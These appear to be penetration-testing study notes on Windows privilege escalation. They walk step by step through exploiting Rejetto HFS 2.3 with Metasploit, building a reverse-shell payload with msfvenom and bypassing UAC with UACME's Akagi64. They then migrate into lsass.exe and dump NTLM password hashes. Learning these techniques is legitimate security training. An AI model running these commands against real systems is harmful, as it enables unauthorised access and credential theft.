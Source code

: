 4. run one of the following that fits

**Windows Kernel exploits**

- user mode, limited access
- kernel mode, highest level of access

### Bypassing UAC with UACME

- User Account Control
- Windows security feature
- can be bypassed

Pre-requisites to bypass UAC:

1. access to user Account
   that is part og the local administrators group on the windows target system
2. if UAC protection level is set below high, windows programs can be executed with elevated privileges without the user for confirmation
3. tools will vary by windows version

**Exploit UAC**
STEP 1: Getting user account

1.  nmap scan, identify
2.  (this is for rejetto file server 2.3)
3.  open msfconsole: `service postgresql start && msfconsole`
4.  search rejetto vuln: `serach rejetto`
5.  configure options then run
6.  som commands and actions: 1.`sysinfo`, 2.`pgrep explorer`, 3.`migrate <number you got from prev command>`,

**Privelege escalation:**
github repository for exploiting:https://github.com/hfiref0x/UACME
STEP 2: Privelege escalation

7. create a reaverseshell: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your IP> LPORT=1234 -f exe > shell.exe`
8. set up listener, new msfconsole session: `msfconsole`
9. in msfvenom `use multi/handler`
10. payload: `set payload windows/meterpreter/reverse_tcp`
11. `set LHOST` , `set LPORT` <-- to port created in shell.exe, then hit `run`
12. IN THE WINDOWS ACCOUNT METERPRETER SESSION: navigate to C: `cd C:\\`
13. create Temp dir: `mkdir Temp` then `cd Temp`
14. Upload shell `upload shell.exe`
15. upload Akagai64(UAC Exploit): `upload /root/Desktop/tools/UACME/Akagi64.exe`
16. open shell session: `shell`
17. exploit method 23, should bet elevated privs: `.\Akagi64.exe 23 C:\Temp\shell.exe`
18. migrate to lsass.exe(for NT AUTHORITY\SYSTEM): list processes:`ps`, `migrate 688` <--PID number , when in folder(INFO):`C:\Windows\system32`
19. get hashdump NTLM hashdump: `hashdump`

### Privelege Escalation: Access Token Impersonation

- Privileges required for a successful impersonation attack:
  - SeAssignPrimaryToken
  * SeCreateToken
  - SeImpersonatePrivilage
